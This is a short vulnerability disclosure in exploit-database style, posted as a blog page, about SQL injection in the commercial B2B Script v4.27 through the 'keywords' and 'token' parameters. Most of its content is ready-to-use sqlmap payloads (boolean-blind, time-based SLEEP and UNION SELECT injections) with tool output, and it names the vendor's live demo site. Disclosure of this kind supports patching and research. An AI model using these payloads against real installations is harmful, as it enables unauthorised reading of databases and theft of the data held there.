 ```yaml
---
layout: post
title: B2B Script v4.27 - SQL Injection - 18.01.2017
---
```


An attacker can exploit this vulnerability to read from the database. The parameters 'keywords' and 'token' are vulnerable.


# Vulnerability: B2B Script v4.27 - SQL Injection
# Date: 18.01.2017
# Software link: http://itechscripts.com/b2b-script/
# Demo: http://b2b.itechscripts.com
# Price: 199$
# Category: webapps
# Exploit Author: Dawid Morawski
# Website: http://www.morawskiweb.pl
# Contact: dawidmorawski1990@gmail.com
#######################################

1. Description
An attacker can exploit this vulnerability to read from the database.

2. SQL Injection / Proof of Concept:

http://localhost/[PATH]/search.php?keywords=[SQL]
SQLmap outout:

Parameter: keywords (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: keywords=-7908') OR 3641=3641#

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: keywords=Products') UNION ALL SELECT NULL,CONCAT(0x716b7a7871,0x68634473486965586e6b57754358736b487a43564c6963646e556549454e476177776a5a6a7a4c4c,0x71767a7a71)#
---
[INFO] testing MySQL
 [INFO] confirming MySQL
 [INFO] the back-end DBMS is MySQL

#########################################

http://localhost/[PATH]/catcompany.php?token=[SQL]
SQLmap outout:

Parameter: token (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND 9125=9125 AND 'HhOm'='HhOm

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: token=7532a5bfc9e07964f8dddeb95fc584cd965d' AND SLEEP(5) AND 'dWKJ'='dWKJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: token=-7417' UNION ALL SELECT NULL,CONCAT(0x7171707071,0x6a6c6d484f58726e48446167417a66756464445941464844416856527a634a704f4b79647a494654,0x716b786271),NULL,NULL,NULL,NULL-- aNXq


